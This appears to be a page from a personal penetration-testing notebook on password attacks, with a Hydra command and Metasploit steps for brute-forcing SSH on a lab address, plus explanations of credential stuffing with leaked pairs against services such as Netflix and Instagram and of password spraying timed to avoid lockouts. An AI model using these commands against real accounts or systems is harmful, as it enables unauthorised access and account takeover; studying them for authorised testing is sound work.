

repository: RayenManai/MyHackBook · page: Fundamentals/password-attacks.html · generator: sphinx

# Password Attacks 101

## Brute force

When you see an exposed auth (eg. SSH) try brute forcing to test password strength and detect weak/default creds. During pentests we may be loud on purpose to see detection.

- Hydra example:

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.0.2.4:22 -t 4 -V
```

- Metasploit aux scanner:

```
msfconsole
search ssh
use auxiliary/scanner/ssh/ssh_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set RHOSTS 10.0.2.4
set THREADS 10
set VERBOSE true
run
```

## Credential stuffing

Replay leaked username:password pairs from breaches against services (Netflix, Instagram, etc.). Fast, low-effort checks, use Pitchfork mode in Burp Intruder to align username->password pairs.

- Example leaked creds:

```
alice@gmail.com:qwerty123
bob@yahoo.com:letmein2020
```

Use Burp Intruder → Payloads → Pitchfork (one list usernames, other list passwords) to test matched pairs.

## Password spraying

Try one/few common passwords across many users to avoid account lockouts (1–2 attempts/user). Good for large directories.

- Example: try `Spring2024!` against:

```
alice@example.com
bob@example.com
carol@example.com
```

Use Burp Intruder Sniper or a custom script; spacing attempts over time to reduce lockout risk.
